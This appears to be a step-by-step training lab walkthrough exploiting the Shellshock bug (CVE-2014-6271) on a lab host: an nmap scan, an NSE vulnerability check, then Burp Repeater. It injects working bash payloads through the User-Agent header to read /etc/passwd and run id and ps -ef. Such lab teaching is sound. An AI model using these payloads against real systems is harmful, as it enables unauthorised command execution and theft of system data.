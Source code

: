# LAB: Shellshock

#### **Step 1:** Open the lab link to access the Kali machine.

<figure><img src="https://assets.ine.com/lab/learningpath/70a0aa1189bd83fe58de3df6dba300a4a972805e46f9c84d9832afab6a2fff7b.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 2:** Run Nmap scan on the target to find open ports.

**Command:**

```
nmap demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/2436e2881cbd9fdbfb5ffd4b0ea5f3e4e5b01e01d9d2ebeecddced0a46e8de62.jpg" alt=""><figcaption></figcaption></figure>

Port 80 is open

#### **Step 3:** Start firefox and navigate to the target domain.

**URL:**

```
http://demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/5009749deae5ada57291c6f04e2e9ca2e13af0302ec6ede96815a47a98752c60.jpg" alt=""><figcaption></figcaption></figure>

A website is running at port 80 of the target.

#### **Step 4:** Right-click and select "View Page Source."

<figure><img src="https://assets.ine.com/lab/learningpath/8823daabc5fed4074a55cbbd88558b9eac23313511707ad35646af8aab5d5228.jpg" alt=""><figcaption></figcaption></figure>

A CGI script is running on the target server.

#### **Step 5:** Use the Nmap NSE script to check if the server is vulnerable to shellshock attack.

**Command:**

```
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

<figure><img src="https://assets.ine.com/lab/learningpath/f9ff6ea01e65a63566f716bca27559bdb9873c7cf53ec3b8a877ac3910b576ca.jpg" alt=""><figcaption></figcaption></figure>

The server is vulnerable to Shellshock attack.

#### **Step 6:** Search for the available exploit for shellshock vulnerability.

<figure><img src="https://assets.ine.com/lab/learningpath/9e049594517b14561ef55aee927a3d1506e5adff5bc1f79f117199787c209a7a.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 7:** The GitHub link contains the steps to exploit the vulnerability.

**URL:** https://github.com/opsxcq/exploit-CVE-2014-6271

<figure><img src="https://assets.ine.com/lab/learningpath/47913a6302cd9c8f2459dc8e88879635adaafaf65ae93554c4d6b9ca4a250167.jpg" alt=""><figcaption></figcaption></figure>

The attacker has to craft malicious user-agent in order to exploit the vulnerability.

#### **Step 8:** Configure Firefox to use Burp Suite. Click on the FoxyProxy plugin icon on the top-right of the browser and select "Burp Suite."

<figure><img src="https://assets.ine.com/lab/learningpath/5b6983696578c128d12d48200bc751be894798e9b0870a028156bc34b3ecef29.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 9:** Start Burp Suite, navigate to proxy, and turn on the intercept.

Reload the page and intercept the request with Burp Suite.

<figure><img src="https://assets.ine.com/lab/learningpath/a76d6d4ac7bfe6280f3b326e6458ff16129b9717f9e210427fce1e854b59d1c8.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 10:** Right-click and select “Send to Repeater” Option and Navigate to the Repeater tab.

<figure><img src="https://assets.ine.com/lab/learningpath/614a649cc29b68807b9cefaf7d4eca247e602312d4482ebcdbff527bdf9c7c6d.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 11:** Modify the User-Agent and inject the malicious payload.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```

<figure><img src="https://assets.ine.com/lab/learningpath/8b77c41dd83f78deca854e91662a659856d43a77837242cd2347661d04624220.jpg" alt=""><figcaption></figcaption></figure>

Click on the Send button.

<figure><img src="https://assets.ine.com/lab/learningpath/fae12094183850d221b8d416db4500c00f34d401cfc741ca5ea20ac3c779a243.jpg" alt=""><figcaption></figcaption></figure>

The command executed successfully.

#### **Step 12:** Modify the payload to execute the ‘id’ command.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'id'
```

<figure><img src="https://assets.ine.com/lab/learningpath/262899f1b5c1992fe834d2320ea249e27e6364604682d4f32c3f1597eb22a297.jpg" alt=""><figcaption></figcaption></figure>

#### **Step 13:** Modify the payload to execute ‘ps -ef’ command.

**Payload:**

```
() { :; }; echo; echo; /bin/bash -c 'ps -ef'
```
